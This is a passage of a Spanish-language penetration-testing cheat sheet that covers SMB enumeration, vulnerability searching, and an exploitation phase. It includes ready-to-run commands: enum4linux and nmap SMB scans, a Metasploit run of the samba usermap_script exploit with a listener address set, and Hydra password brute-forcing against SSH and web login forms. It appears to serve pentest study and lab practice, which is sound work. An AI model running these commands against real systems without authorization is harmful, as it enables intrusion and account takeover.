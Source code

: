 #### SMB/NetBIOS (Puertos 139, 445)
```bash
# Listado de recursos compartidos (sin autenticación)
smbclient -L //[IP_objetivo] -N

# Enumeración completa y exhaustiva con enum4linux
enum4linux -a [IP_objetivo]

# Scripts NSE para enumeración y vulnerabilidades SMB
nmap -p 445 --script smb-enum-shares,smb-enum-users,smb-vuln* [IP]
```

--- 

## ⚔️ FASE 3: EXPLOTACIÓN
*Obtención de acceso inicial al sistema objetivo.*

### 3.1. Búsqueda y Análisis de Vulnerabilidades

| Tarea | Herramienta | Función y Desglose de Opciones |
|---|---|---|
| Escaneo Profundo | nmap | `-sS`, `-sV`, `-O`, `-p-`, `-A` |
| Vulnerabilidades Web | nikto | `-h`: especifica host |
| Inyección SQL | sqlmap | `-u`, `--dbs`, `--batch` |
| Explotación | msfconsole | `search`, `use`, `set RHOSTS`, `exploit` |

```bash
# Búsqueda por servicio y versión con searchsploit
searchsploit samba 3.0.20

# Copiar exploit para análisis y modificación
searchsploit -m [ID_exploit]

# Búsqueda de módulos en Metasploit
msfconsole -q
search type:exploit platform:linux samba

# Configuración y ejecución de exploit
use exploit/multi/samba/usermap_script
set RHOSTS [IP_objetivo]
set LHOST [IP_atacante]
exploit
```

### 3.2. Ataques de Fuerza Bruta con Hydra

```bash
# Ataque de fuerza bruta SSH
hydra -L users.txt -P /usr/share/wordlists/rockyou.txt ssh://[IP_objetivo]

# Ataque a formulario web (HTTP POST)
hydra -L users.txt -P passwords.txt [IP] http-post-form "/login.php:username=^USER^&password=^PASS^:F=incorrect"
```
